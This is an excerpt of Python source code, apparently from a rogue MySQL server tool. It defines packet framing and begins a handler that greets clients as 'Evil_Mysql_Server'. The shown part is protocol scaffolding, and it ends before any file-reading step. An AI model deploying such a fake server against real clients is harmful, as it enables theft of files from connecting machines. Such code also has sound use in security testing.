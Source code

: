 ```python
            if e.errno != 9: raise
    os.close(null)

class LastPacket(Exception):
    pass

class OutOfOrder(Exception):
    pass

class mysql_packet(object):
    packet_header = struct.Struct('<Hbb')
    packet_header_long = struct.Struct('<Hbbb')
    def __init__(self, packet_type, payload):
        if isinstance(packet_type, mysql_packet):
            self.packet_num = packet_type.packet_num + 1
        else:
            self.packet_num = packet_type
        self.payload = payload

    def __str__(self):
        payload_len = len(self.payload)
        if payload_len < 65536:
            header = mysql_packet.packet_header.pack(payload_len, 0, self.packet_num)
        else:
            header = mysql_packet.packet_header.pack(payload_len & 0xFFFF, payload_len >> 16, 0, self.packet_num)

        result = "{0}{1}".format(
            header,
            self.payload
        )
        return result

    def __repr__(self):
        return repr(str(self))

    @staticmethod
    def parse(raw_data):
        packet_num = ord(raw_data[0])
        payload = raw_data[1:]

        return mysql_packet(packet_num, payload)

class http_request_handler(asynchat.async_chat):

    def __init__(self, addr):
        asynchat.async_chat.__init__(self, sock=addr[0])
        self.addr = addr[1]
        self.ibuffer = []
        self.set_terminator(3)
        self.state = 'LEN'
        self.sub_state = 'Auth'
        self.logined = False
        self.push(
            mysql_packet(
                0,
                "".join((
                    '\x0a',  # Protocol
                    '3.0.0-Evil_Mysql_Server' + '\0',  # Version
                    #'5.1.66-0+squeeze1' + '\0',
                    '\x36\x00\x00\x00',  # Thread ID
                    'evilsalt' + '\0',  # Salt
                    '\xdf\xf7',  # Capabilities
```